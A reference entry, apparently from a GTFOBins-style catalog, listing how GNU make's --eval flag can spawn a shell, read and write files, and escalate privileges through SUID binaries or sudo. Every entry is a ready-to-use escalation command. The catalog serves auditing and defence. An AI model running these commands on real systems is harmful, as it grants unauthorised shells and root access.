 ```yaml
---
description: All these examples only work with GNU `make` due to the lack of support of the `--eval` flag. The same can be achieved by using a proper `Makefile` or by passing the content via stdin using `-f -`.
functions:
  shell:
    - code: |
        COMMAND='/bin/sh'
        make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
    - description: Requires a newer GNU `make` version.
      code: |
        LFILE=file_to_write
        make -s --eval="\$(file >$LFILE,DATA)" .

  file-read:
    - description: Requires a newer GNU `make` version.
      code: |
        CMND='cat file_to_read'
        make -s --eval=$'x:\n\t-'"$CMND"
        
  suid:
    - code: |
        COMMAND='/bin/sh -p'
        ./make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo:
    - code: |
        COMMAND='/bin/sh'
        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
---
```

